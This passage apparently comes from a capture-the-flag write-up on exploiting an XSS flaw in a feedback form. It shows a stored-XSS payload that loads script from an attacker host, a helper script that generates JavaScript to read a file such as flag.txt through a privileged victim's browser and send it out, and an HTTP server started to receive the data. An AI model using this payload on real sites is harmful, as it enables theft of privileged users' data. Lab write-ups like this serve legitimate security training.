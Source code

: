 Now we send it over to **Replay :**

<img src="../../Flameshots/2994e97ec7146eeb78125b34fad2a1a8.png" alt="2994e97ec7146eeb78125b34fad2a1a8.png" width="314" height="130" class="jop-noMdConv">

We can click on Send and analyze the Response code:

<img src="../../Flameshots/889269d9dabe785d499320a84c7191a4.png" alt="889269d9dabe785d499320a84c7191a4.png" width="549" height="416" class="jop-noMdConv">

It says '<span style="color: rgb(224, 62, 45);">Thanks for your feedback! It will be <span style="color: rgb(45, 194, 107);">evaluated</span> shortly by our staff<span style="color: rgb(255, 255, 255);">'</span> <span style="color: rgb(255, 255, 255);">so we may think there's some XSS.</span></span>

# Exploit

<span style="color: rgb(224, 62, 45);"><span style="color: rgb(255, 255, 255);">We can try to use Tyler Ramsbey script in JS and it will automatically catch the flag once the victim user click flag.txt :</span></span>

<img src="../../Flameshots/7d021226144879cdd810f3c57a3a764b.png" alt="7d021226144879cdd810f3c57a3a764b.png" width="258" height="238" class="jop-noMdConv">

We download and make it executable with `sudo chmod +x xss-extract.py` and run it :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 xss-extract.py -h   
usage: xss-extract.py [-h] -d DIRECTORY -i IP

This script will generate a malicious .js file. When this is used in an XSS attack, it will
cause the victim to navigate to the target directory and send the content to the attacker.
This is useful if the victim is an admin or privileged user with access to sensitive
information. Only use with permission. The XSS payload is <script src=http://[attacker-
ip]/script.js></script>

options:
  -h, --help            show this help message and exit
  -d, --directory DIRECTORY
                        Target Directory
  -i, --ip IP           Attacker IP Address

```

So we have the syntax for our flag :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 xss-extract.py -d /flag.txt -i 10.10.16.67
JavaScript code has been written to script.js

```

Now we can open our [[Python]] web [[Server]] :

```
┌──(hax㉿HaxonKali)-[~/Scaricati]
└─$ python3 -m http.server 80                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
